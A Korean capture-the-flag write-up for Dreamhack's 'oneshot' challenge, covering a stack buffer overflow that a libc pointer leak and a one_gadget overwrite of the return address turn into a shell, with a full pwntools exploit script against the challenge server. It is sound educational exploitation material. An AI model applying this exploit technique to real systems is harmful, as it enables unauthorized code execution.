 # oneshot - Dreamhack
## Challenge Info
- Date: 2025
- CTF Name:Dreamhack
- Category: pwn
- Difficulty (subjective): easy
- Points: 1
- Provided Files: oneshot.c, oneshot(ELF), libc.so.6
- tools:
## Brief Description
이 문제는 작동하고 있는 서비스(oneshot)의 바이너리와 소스코드가 주어집니다.
프로그램의 취약점을 찾고 셸을 획득한 후, "flag" 파일을 읽으세요.
"flag" 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
플래그의 형식은 DH{...} 입니다.
## Initial Analysis
### Environment
``` sh
checksec oneshot
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```
### Code
``` c
// gcc -o oneshot1 oneshot1.c -fno-stack-protector -fPIC -pie

#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```
## Vulnerability
### BOF(Buffer Overflow)
``` c
read(0, msg, 46); // msg size = 16
```
`msg`의 크기는 16byte인 반면, `read`로 읽어오는 크기는 46byte로 30byte 벗어나 BOF 취약점이 발생한다. 
## Exploit
### Strategy
BOF 취약점을 이용했을 때, `msg`(rbp - 0x20)를 넘어서 덮을 수 있는 범위는 rbp의 8byte와 ra의 하위 6byte 밖에 없다. 이정도 크기로는 ROP chain을 구성하기 어렵다. 사용할 수 있는 one gadget들을 다 시도해보면 된다. x64 환경에서 8바이트 중 상위 2바이트는 커널 영역이다. 따라서 하위 6바이트만으로도 충분히 one gadget 주소로 덮을 수 있다.  
### Stack Frame of main
| Variable Name | Offset from RBP |
| --- | --- |
| ra | 0x8 |
| rbp |  |
| check | -0x8 |
| dummy | -0x10 |
| msg | -0x20 |
### Exploitation Steps
``` sh
pwndbg> break *(main+33)
pwndbg> ni
pwndbg> ni
```
``` sh
*RAX  0x7ffff7fa6868 (stdout) —▸ 0x7ffff7fa6780 (_IO_2_1_stdout_) ◂— 0xfbad2087
*RAX  0x7ffff7fa6780 (_IO_2_1_stdout_) ◂— 0xfbad2087
```
`stdout`이 가리키는 값은 libc의 `_IO_2_1_stdout_`임을 확인할 수 있다. 이 것으로 libc base를 구할 수 있다.  
``` sh
$ one_gadget x64/libc.so.6
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
해당 one_gadget들을 모두 시도해본다. libc에 존재하기 때문에 libc base와 더해서 사용해야 한다.  
### payload
``` python
from pwn import *

p = remote('host1.dreamhack.games', 18982)
context.arch = "amd64"

e = ELF('./oneshot')
libc = ELF('x64/libc.so.6')

# stdout
p.recvuntil(b'stdout: ')
stdout = int(p.recvline(), 16)

# libc base leak
libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
log.info(f'libc base = {libc_base}')
og = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
og = og[0] + libc_base

# payload
payload = b''
payload += b'\x00' * 0x20 + b'A' * 0x8
payload += p64(og)[:8]

p.sendafter(b'MSG: ', payload)
p.recvline()

# interactive
p.interactive()
```
## Lessons Learned
### Libc Version
처음에 one_gadet을 사용할 때 다른 문제에서 제공해준 64bit libc.so.6을 사용했었는데, 해당 libc로는 풀리지 않았다. 이름이 같아서 같은 libc 파일인 줄 알았으나, `libc.so.6`은 glibc 라이브러리의 심볼릭 링크 이름으로, 실체는 `libc-<버전>.so`이다. 즉, glibc의 버전 차이, OS나 컴파일 옵션, 보안 패치 적용 여부 등 때문에 이름이 같아도 내용은 다를 수 있다. 또한 `libc-2.27.so` 처럼 버전 이름이 같아도 내용이 다를 수 있는데, 빌드 시 옵션이나 패치로 인해 함수 오프셋, gadget 위치 등이 달라질 수 있기 때문이다. 이걸 모르고 삽질하다가 혹시나 해서 문제에서 제공해준 libc로 one_gadget을 확인해보니 내용이 확연하게 다르다는 것을 알 수 있었다.  